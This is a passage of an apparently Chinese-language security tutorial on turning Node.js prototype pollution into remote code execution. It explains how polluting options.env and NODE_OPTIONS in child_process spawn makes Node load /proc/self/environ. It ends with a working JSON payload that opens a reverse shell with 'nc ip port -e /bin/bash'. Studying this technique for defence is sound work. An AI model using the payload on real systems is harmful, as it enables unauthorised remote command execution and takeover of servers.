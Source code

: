 最终都是调用spawn()，其中spawn()的本质是创建ChildProcess的实例并返回。

### 污染child_process options

在spawn打上断点

```javascript
const { spawn } = require('child_process');

spawn('whoami').stdout.on('data', (data) => {
    console.log(`stdout: ${data}`);
});
```

spawn会调用normalizeSpawnArguments

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241001175545431.png)

注意在normalizeSpawnArguments中，如果options有env属性，这里env为options.env

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241001175731386.png)

后面就是各种put，返回这个env，正常来说这个env是process.env，也就是系统环境变量

回到spawn，新建了子进程ChildProcess，并调用原生spawn

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241001180433568.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241001181001977.png)

又因为nodejs>8.0时，新增加了一个命令行参数`NODE_OPTIONS`，执行js脚本的时候用以下参数指定另外一个js进行包含，包含嘛，也会执行代码

```shell
NODE_OPTIONS='--require ./evil.js' node
```

node进程启动时，会默认附带环境变量作为命令行参数，如果环境变量里有`NODE_OPTIONS`参数，也会默认执行。node子进程也如此。

> node运行时会把当前进程的env写进系统的环境变量，子进程也一样，在linux中存储为`/proc/self/environ`。

如果我们能覆盖options.env，使env的值为恶意js代码，这样node运行时会把当前恶意代码写入`/proc/self/environ`

再向env写入`NODE_OPTIONS`参数，参数值为`--require /proc/self/environ`，就能RCE

options是Obeject，直接污染Object.env就OK

而且file必须为node，否则无法将NODE_OPTIONS载入

exec、execFile函数无论传入什么命令，file的值都会为`/bin/sh`，所以默认不能用这种办法打

一般来说payload长这样：

```json
{
    "constructor.prototype.shell":"node",
    "constructor.prototype.env.AnyString": "require('child_process').execSync('nc ip port -e /bin/bash');process.exit();//",
    "constructor.prototype.env.NODE_OPTIONS":"-r /proc/self/environ"
}
```
